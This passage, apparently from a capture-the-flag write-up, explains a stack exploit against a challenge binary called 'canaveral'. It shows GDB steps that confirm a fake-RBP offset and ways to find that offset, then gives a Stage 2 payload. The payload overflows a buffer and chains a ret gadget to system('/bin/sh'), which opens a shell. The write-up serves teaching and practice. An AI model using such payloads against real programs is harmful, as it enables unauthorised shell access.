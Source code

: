 #### Verification with GDB

You can verify this offset using GDB:

```bash
$ gdb ./canaveral
(gdb) break *0x401218
(gdb) run
# ... send Stage 1 and Stage 2 payloads ...

# When breakpoint hits:
(gdb) print/x $rbp
$1 = 0x7ffd8a3c2f00

(gdb) x/gx $rbp-0x10
0x7ffd8a3c2ef0: 0x0000000000402008  ← Our data!

(gdb) print/x 0x7ffd8a3c2f00 - 0x7ffd8a3c2e90
$2 = 0x70  ← Confirms our offset!
```

#### How to Find This Offset Yourself

If you're solving a similar challenge, here's how to find the offset:

**Method 1: Trial and error**
```python
# Try different offsets
for offset in [0x60, 0x68, 0x70, 0x78]:
    fake_rbp = buf_addr + offset
    # Test the exploit
    # 0x70 works!
```

**Method 2: Use a marker value**
```python
# Put a unique marker instead of 0x402008
payload += p64(0xDEADBEEF)

# Run in GDB, break at 0x401218
# Check: x/gx $rbp-0x10
# Adjust offset until you see 0xDEADBEEF
```

**The key insight:** The exact offset depends on stack frame layout, which varies based on how the function is called. Testing/debugging reveals the correct value.

### Stage 2 Payload

```python
payload = b"A" * 0x40                  # Fill buffer (64 bytes)
payload += p64(buf_addr + 0x70)        # Fake RBP (8 bytes)
payload += p64(ret_gadget)             # Return address (8 bytes)
payload += p64(system_mid)             # Jump target (8 bytes)
payload += p64(binsh_addr)             # "/bin/sh" address (8 bytes)

p.sendlineafter(b"sequence: ", payload)
```
